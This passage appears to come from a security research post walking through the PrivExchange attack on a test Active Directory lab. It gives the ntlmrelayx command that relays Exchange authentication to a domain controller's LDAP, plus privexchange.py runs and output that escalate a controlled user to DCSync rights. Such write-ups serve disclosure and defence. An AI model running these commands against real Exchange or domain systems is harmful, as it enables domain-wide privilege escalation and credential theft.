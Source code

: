 ![PrivExchange attack](/assets/img/privexchange/privexchange-drawing.svg){: .align-center}

We need two tools to perform the attack, `privexchange.py` and `ntlmrelayx`. You can get both on GitHub in the [PrivExchange](https://github.com/dirkjanm/privexchange/) and [impacket](https://github.com/SecureAuthCorp/impacket/) repositories.
Start ntlmrelayx in relay mode with LDAP on a Domain Controller as target, and supply a user under the attackers control to escalate privileges with (in this case the `ntu` user):
```
ntlmrelayx.py -t ldap://s2016dc.testsegment.local --escalate-user ntu
```
Now we run the `privexchange.py` script:
```
user@localhost:~/exchpoc$ python privexchange.py -ah dev.testsegment.local s2012exc.testsegment.local -u ntu -d testsegment.local
Password: 
INFO: Using attacker URL: http://dev.testsegment.local/privexchange/
INFO: Exchange returned HTTP status 200 - authentication was OK
ERROR: The user you authenticated with does not have a mailbox associated. Try a different user.
```
When this is run with a user which doesn't have a mailbox, we will get the above error.
Let's try it again with a user which does have a mailbox associated:
```
user@localhost:~/exchpoc$ python privexchange.py -ah dev.testsegment.local s2012exc.testsegment.local -u testuser -d testsegment.local 
Password: 
INFO: Using attacker URL: http://dev.testsegment.local/privexchange/
INFO: Exchange returned HTTP status 200 - authentication was OK
INFO: API call was successful
```
After a minute (which is the value supplied for the push notification) we see the connection coming in at ntlmrelayx, which gives our user DCSync privileges:
